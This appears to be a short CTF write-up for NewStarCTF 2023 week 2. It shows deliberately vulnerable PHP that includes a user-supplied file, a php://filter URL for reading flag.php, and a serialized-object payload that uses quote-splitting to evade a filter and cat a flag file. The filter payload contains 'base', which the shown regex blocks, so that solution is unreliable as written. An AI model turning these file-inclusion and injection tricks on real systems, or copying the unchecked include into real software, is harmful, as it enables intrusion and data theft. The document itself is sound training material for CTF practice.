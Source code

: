 

![img](https://img-blog.csdnimg.cn/d08916e9864b41b49c3de4cecd1f658d.png)



## [NewStarCTF 2023 week2] include 0。0

```php
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
```



参考[[CTF/网络安全\] 攻防世界 文件包含（泰山杯）解题详析_泰山杯ctf_秋说的博客-CSDN博客](https://blog.csdn.net/2301_77485708/article/details/132031713)

> [3cf7a2e0-b527-4859-9b34-01eda76a197d.node4.buuoj.cn:81/?file=php://filter/read=convert.base64-encode/resource=flag.php](http://3cf7a2e0-b527-4859-9b34-01eda76a197d.node4.buuoj.cn:81/?file=php://filter/read=convert.base64-encode/resource=flag.php)

![img](https://img-blog.csdnimg.cn/8420298a68a642a391daeb70cffbb92b.png)





## [NewStarCTF 2023 week2] Unserialize？ 

![img](https://img-blog.csdnimg.cn/41cec9bae8a246feb77a36e1ed5dc815.png)





```php
<?php
class evil {
    public $cmd;
}

$flag =new evil();
$flag->cmd="ca''t ../../../th1s_1s_ffff''lllll4444aaaggggg";
print(serialize($flag));
?> 
```



## [NewStarCTF 2023 week2] ez_sql
